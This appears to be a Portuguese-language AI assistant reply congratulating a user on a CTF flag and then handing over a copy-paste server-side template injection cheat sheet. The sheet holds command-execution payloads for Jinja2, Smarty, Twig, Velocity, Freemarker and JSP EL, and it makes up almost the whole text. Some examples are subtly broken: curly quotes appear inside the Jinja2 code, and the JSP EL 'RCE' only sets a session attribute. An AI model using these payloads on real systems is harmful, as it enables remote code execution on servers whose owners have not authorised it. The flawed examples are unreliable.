 Boa, João! Parabéns por pegar a flag! 🎉 Agora sim, vamos preparar o teu *arsenal SSTI completo* — para que, se aparecer um **bug bounty** ou um CTF mais hardcore, já tenhas os **payloads principais prontos para PHP, Java e Python**.

---

## 🐍 Python – Jinja2 (Flask, Django)

### ✅ Testes simples

```jinja2
{{7*7}}                      → Resultado esperado: 49
{{ ''.__class__.__mro__ }}  → Ver classes
```

### ✅ Execução de comandos

```jinja2
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('whoami').read() }}
```

### ✅ Outro método (com subclasses e subprocess)

```jinja2
{{''.__class__.__mro__[1].__subclasses__()[<ID>](‘ls’,shell=True,stdout=-1).communicate()[0].decode()}}
```

---

## 🐘 PHP – Smarty, Twig, Blade

### ✅ Smarty

#### Teste básico:

```smarty
{$smarty.version}         → Mostra versão
{php}echo `id`;{/php}     → PHP code (só funciona se `{php}` não estiver desabilitado)
```

#### Exploração (quando `eval` está ligado):

```smarty
{assign var="foo" value="`ls`"}{$foo}
```

> Se `backtick` é interpretado, é possível RCE.

---

### ✅ Twig (Laravel, Symfony)

#### Teste:

```twig
{{7*7}}                   → Resultado: 49
```

#### RCE (se mal configurado):

```twig
{{ _self.env.registerUndefinedFilterCallback('system') }}
{{ _self.env.getFilter('id').getCallable()('id') }}
```

> Este é um dos poucos casos onde Twig permite execução arbitrária (bem raro, exige `.env` mal feito).

---

### ✅ Blade (Laravel – difícil SSTI direto)

Blade compila os arquivos `.blade.php` em `.php`, então não dá pra injetar SSTI com `{{ }}` a não ser que a entrada do usuário seja diretamente colocada dentro de um `eval` ou `@php`.

---

## ☕ Java – Apache Velocity, Freemarker, JSP EL

### ✅ Velocity (Apache)

#### Teste:

```velocity
${7*7}                → Resultado: 49
```

#### Execução de comandos:

```velocity
#set($e="".getClass().forName("java.lang.Runtime").getRuntime().exec("id"))
```

```velocity
${e.getInputStream().read()}  // ou ler o output em bytes
```

---

### ✅ Freemarker

#### Teste:

```freemarker
${7*7}               → Resultado: 49
```

#### Execução de comandos:

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> 
${ ex("id") }
```

> Essa função (`Execute`) precisa estar habilitada (por padrão não está, mas em sistemas mal configurados pode estar).

---

### ✅ JSP EL (Expression Language)

#### Teste:

```jsp
${7*7}               → Resultado: 49
```

#### RCE (raríssimo e só com eval)

```jsp
${pageContext.request.getSession().setAttribute("cmd", "id")}
${pageContext.request.getSession().getAttribute("cmd")}
```

---

## 🧰 Dica bônus – SSTI Cheatsheet pronta (para copiar e colar)

### Testes de detecção:

```text
{{7*7}}, ${7*7}, <%= 7*7 %>, #{7*7}, ${7+7}
```

### Jinja2:

```jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[<index>](‘id’,shell=True,stdout=-1).communicate()[0].decode() }}
```

### Twig:

```twig
{{ _self.env.registerUndefinedFilterCallback('system') }}
{{ _self.env.getFilter('id').getCallable()('id') }}
```

### Velocity:

```velocity
#set($e="".getClass().forName("java.lang.Runtime").getRuntime().exec("id"))
```

### Freemarker:

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> 
${ ex("id") }
```

---

Se quiser, posso montar um PDF ou snippet com todos esses prontos pra você colar quando estiver fazendo CTF ou bug bounty. É só pedir. 🚀
